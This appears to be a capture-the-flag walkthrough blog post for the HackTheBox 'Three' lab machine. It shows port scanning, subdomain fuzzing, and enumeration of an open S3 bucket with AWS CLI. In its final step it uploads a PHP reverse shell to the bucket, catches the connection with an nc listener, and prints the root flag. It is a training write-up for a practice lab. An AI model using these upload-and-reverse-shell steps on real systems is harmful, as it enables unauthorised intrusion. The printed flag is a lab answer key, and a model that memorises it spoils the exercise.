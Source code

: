 ```yaml
---
title: "HTB Tier 1: Three - Complete Walkthrough"
date: "2025-08-25"
tags: ["HTB", "Cybersecurity", "Beginner", "CTF", "Walkthrough"]
excerpt: "A complete step-by-step walkthrough for the HTB Tier 1: Three machine, including all commands, outputs, and explanations for tools used."
---
```


# HTB Tier 1: Three Walkthrough

This walkthrough provides a detailed step-by-step solution for the HTB Tier 1: Three machine. All commands, outputs, and explanations are included so anyone can follow along.

---

## Step 1

**Question:** How many TCP ports are open?  

**Answer:** 2  

**Command and Output:**
```bash
nmap -sV -sC 10.129.25.2
````

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-25 03:50 EDT
Nmap scan report for 10.129.25.2
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open  http    Apache httpd 2.4.29
```

**Explanation:** Scans open TCP ports, identifies running services and versions.

---

## Step 2

**Question:** What is the domain of the email address provided in the "Contact" section of the website?

**Answer:** thetoppers.htb

**Method:** Visit the website and check the Contact section for the email domain.

---

## Step 3

**Question:** In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses?

**Answer:** `/etc/hosts`

**Command:**

```bash
sudo nano /etc/hosts
```

**Explanation:** Allows local hostname-to-IP resolution.

---

## Step 4

**Question:** Which sub-domain is discovered during further enumeration?

**Answer:** s3.thetoppers.htb

**Commands and Outputs:**

* **FFUF Fuzzing:**

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u "http://thetoppers.htb" \
-H "Host: FUZZ.thetoppers.htb" -fs 11952 -mc all
```

```
s3                      [Status: 404, Size: 21]
gc._msdcs               [Status: 400, Size: 306]
```

* **Gobuster VHOST Enumeration:**

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u http://thetoppers.htb --append-domain
```

```
s3.thetoppers.htb Status: 404 [Size: 21]
gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
```

**Explanation:** Virtual host enumeration using Host header fuzzing identifies subdomains.

---

## Step 5

**Question:** Which service is running on the discovered sub-domain?

**Answer:** Amazon S3

**Method:** Observing HTTP responses shows S3 bucket behavior.

---

## Step 6

**Question:** Which command line utility can be used to interact with the service running on the discovered sub-domain?

**Answer:** AWS CLI (`awscli`)

**Installation:**

```bash
sudo apt install awscli
```

---

## Step 7

**Question:** Which command is used to set up the AWS CLI installation?

**Answer:** `aws configure`

**Command:**

```bash
aws configure
```

**Explanation:** Configures AWS credentials, default region, and output format.

---

## Step 8

**Question:** What is the command used by the above utility to list all of the S3 buckets?

**Answer:** `aws s3 ls`

**Command and Output:**

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb
```

```
2025-08-25 03:49:04 thetoppers.htb
```

---

## Step 9

**Question:** This server is configured to run files written in what web scripting language?

**Answer:** PHP

**Command and Output:**

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
```

```
PRE images/
2025-08-25 03:49:04          0 .htaccess
2025-08-25 03:49:04      11952 index.php
```

**Explanation:** The presence of `index.php` confirms PHP as the server-side scripting language.

---

## Step 10

**Objective:** Find the root flag.

**Steps and Outputs:**

1. **Create PHP reverse shell**

   * Source: [Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
   * Save as `shell.php`.

2. **Upload shell to S3:**

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/
```

```
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

3. **Set up listener:**

```bash
nc -lvnp 8080
```

```
listening on [any] 8080 ...
connect to [10.10.14.122] from (UNKNOWN) [10.129.25.2] 33394
Linux three 4.15.0-189-generic x86_64
```

4. **Access shell via browser:** Reverse shell connects.

5. **Search for root flag:**

```bash
find / -name flag.txt 2>/dev/null
```

```
/root/flag.txt
```

**Root Flag:**

```
a980d99281a28d638ac68b9bf9453c2b
```

---

## Tools Used

* **nmap**: Port scanning and service enumeration — [https://nmap.org/](https://nmap.org/)
* **ffuf**: Fuzzing hostnames to find subdomains — [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)
* **gobuster**: Subdomain/vhost enumeration — [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
* **AWS CLI**: Interacting with Amazon S3 buckets — [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)
* **PHP Reverse Shell**: Reverse shell payload for PHP web servers — [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

---
